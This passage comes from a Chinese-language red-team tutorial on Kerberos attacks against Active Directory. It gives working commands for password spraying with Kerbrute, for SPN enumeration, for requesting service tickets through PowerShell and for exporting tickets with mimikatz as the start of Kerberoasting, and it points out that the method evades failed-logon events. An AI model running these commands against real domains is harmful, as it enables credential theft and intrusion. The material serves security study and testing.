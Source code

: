 ## 2、密码喷洒

密码喷洒和用户名枚举原理一样，而且使用 Kerberos 协议对 Windows 密码进行暴力破解比其他方法要快得多，并且更加隐蔽，因为 Kerberos 身份验证即使失败也不会触发 4625 登录失败事件。

这里同样使用 Kerbrute 工具进行演示。

```yaml
kerbrute passwordspray --dc 192.168.7.7 -d teamssix.com users.txt 1qaz@WSX
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202109231512431.png)

## 3、Kerberoast

> 关于 Kerberoast 和 SPN 的详细介绍可以参考我之前的文章：[https://teamssix.com/210907-121204.html](https://teamssix.com/210907-121204.html)

Kerberoast 是一种针对 Kerberos 协议的利用方式，在需要使用某个服务向票据授予服务器发送请求时（即上述 Kerberos 协议里第 ③ 步），用户首先需要有个有效的票据授予票据。

当票据授予票据被验证有效且具有该服务的权限时，票据授予服务器会向用户返回使用服务端密钥加密的服务票据，该服务票据使用与该服务相关联计算机账号的密码加密，因此 RT 可以对加密后的内容进行离线哈希破解。

**Kerberoast 的利用思路：**
i. 查询 SPN
ii. 请求并导出服务票据
iii. 对服务票据进行爆破

> 这里使用 Kerberoast 工具包作为演示，以下工具均在 Kerberoast 工具包里。

### i. 查询 SPN

```javascript
./GetUserSPNs.ps1
```

可以看到 test 用户有个 MSSQLSvc/DBSRV.teamssix.com:1433 服务

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202109231512937.png)


### ii. 请求并导出服务票据

这里请求 MSSQLSvc/DBSRV.teamssix.com:1433 服务并导出服务票据

```javascript
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DBSRV.teamssix.com:1433"  
```

可以使用 klist 查看新的是否有票据缓存，有的话就可以使用 mimikatz 导出票据了

```javascript
kerberos::list /export
```
